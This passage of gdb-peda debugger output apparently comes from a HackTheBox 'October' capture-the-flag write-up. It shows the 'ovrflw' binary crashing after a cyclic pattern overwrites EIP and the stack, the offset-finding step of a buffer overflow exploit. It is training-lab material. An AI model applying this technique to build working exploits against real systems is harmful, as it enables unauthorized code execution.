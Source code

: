 ```bash
EDX: 0xffffd424 --> 0x0 
ESI: 0x2 
EDI: 0x8048380 (<_start>:	xor    ebp,ebp)
EBP: 0xffffd3e8 --> 0x0 
ESP: 0xffffd3e8 --> 0x0 
EIP: 0x8048480 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048478 <frame_dummy+40>:	jmp    0x80483f0 <register_tm_clones>
   0x804847d <main>:	push   ebp
   0x804847e <main+1>:	mov    ebp,esp
=> 0x8048480 <main+3>:	and    esp,0xfffffff0
   0x8048483 <main+6>:	add    esp,0xffffff80
   0x8048486 <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x804848a <main+13>:	jg     0x80484ad <main+48>
   0x804848c <main+15>:	mov    eax,DWORD PTR [ebp+0xc]
[------------------------------------stack-------------------------------------]
0000| 0xffffd3e8 --> 0x0 
0004| 0xffffd3ec --> 0xf7dd6905 (<__libc_start_main+229>:	add    esp,0x10)
0008| 0xffffd3f0 --> 0x2 
0012| 0xffffd3f4 --> 0xffffd494 --> 0xffffd609 ("/home/shiro/HackTheBox/October/ovrflw")
0016| 0xffffd3f8 --> 0xffffd4a0 --> 0xffffd6c6 ("LANG=en_SG.UTF-8")
0020| 0xffffd3fc --> 0xffffd424 --> 0x0 
0024| 0xffffd400 --> 0xffffd434 --> 0x9807dcef 
0028| 0xffffd404 --> 0xf7ffdb98 --> 0xf7ffdb30 --> 0xf7fc33f0 --> 0xf7ffd9d0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048480 in main ()
gdb-peda$ continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd6c0 ("AAoAA")
EDX: 0xffffd40d ("AAoAA")
ESI: 0x2 
EDI: 0x8048380 (<_start>:	xor    ebp,ebp)
EBP: 0x6941414d ('MAAi')
ESP: 0xffffd3f0 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
EIP: 0x41384141 ('AA8A')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41384141
[------------------------------------stack-------------------------------------]
0000| 0xffffd3f0 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
0004| 0xffffd3f4 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAA")
0008| 0xffffd3f8 ("AAOAAkAAPAAlAAQAAmAARAAoAA")
0012| 0xffffd3fc ("AkAAPAAlAAQAAmAARAAoAA")
0016| 0xffffd400 ("PAAlAAQAAmAARAAoAA")
0020| 0xffffd404 ("AAQAAmAARAAoAA")
0024| 0xffffd408 ("AmAARAAoAA")
0028| 0xffffd40c ("RAAoAA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41384141 in ?? ()
```
